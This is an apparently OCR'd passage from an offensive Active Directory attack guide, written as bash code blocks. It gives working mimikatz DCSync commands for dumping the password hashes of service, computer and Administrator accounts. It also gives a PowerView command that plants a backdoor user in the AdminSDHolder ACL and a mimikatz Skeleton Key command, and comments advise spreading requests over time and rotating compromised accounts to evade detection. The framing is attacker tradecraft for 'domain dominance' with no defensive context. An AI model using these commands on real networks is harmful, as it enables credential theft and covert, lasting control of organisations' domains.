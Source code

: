 ```bash

# Computer accounts (for Silver Tickets)
mimikatz "lsadump::dcsync /domain:domain.local /user:SQL01$"

# Service accounts
mimikatz "lsadump::dcsync /domain:domain.local /user:svcSQL"

# DCSync with specific domain controller
mimikatz "lsadump::dcsync /domain:domain.local /dc:dc01.domain.local /user:Administrator"

# Advanced DCSync techniques
# Targeted extraction to reduce detection
# Focus on specific high-value accounts rather than dumping all

# Using PowerShell for DCSync (advanced)
# Custom implementation using .NET Framework classes
# More stealthy but requires advanced programming skills

# DCSync detection evasion
# Spread requests over time
# Use different compromised accounts
# Target specific accounts rather than bulk extraction
# Monitor for detection and adjust techniques

# Why DCSync is critical for domain dominance:
# - Extracts all domain password hashes
# - Uses legitimate AD protocols
# - Doesn't require physical DC access
# - Enables Golden Ticket creation
# - Provides complete credential database
```

### **Advanced Persistence Techniques**

**What advanced AD persistence involves:** Maintaining long-term access to Active Directory environments through multiple covert methods that survive password changes, system updates, and security improvements.

```bash
# Golden Ticket persistence (covered above)
# Most effective long-term persistence method

# AdminSDHolder persistence
# Modify AdminSDHolder object to grant persistent admin rights
# AdminSDHolder template is applied to privileged accounts every hour
# Add persistent backdoor user to AdminSDHolder ACL

# Using PowerView
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName backdooruser -Rights All

# DCShadow attack (advanced)
# Register fake domain controller to push malicious changes
# Requires two compromised domain controllers or DA privileges
# Extremely stealthy as changes appear legitimate

# Skeleton Key attack
# Inject master password into domain controller LSASS
# Allows authentication with any account using skeleton key password
mimikatz "privilege::debug" "misc::skeleton" "exit"
# Default skeleton key password: "mimikatz"

# Directory Service Restore Mode (DSRM) persistence
# DSRM account provides local admin access to domain controllers
```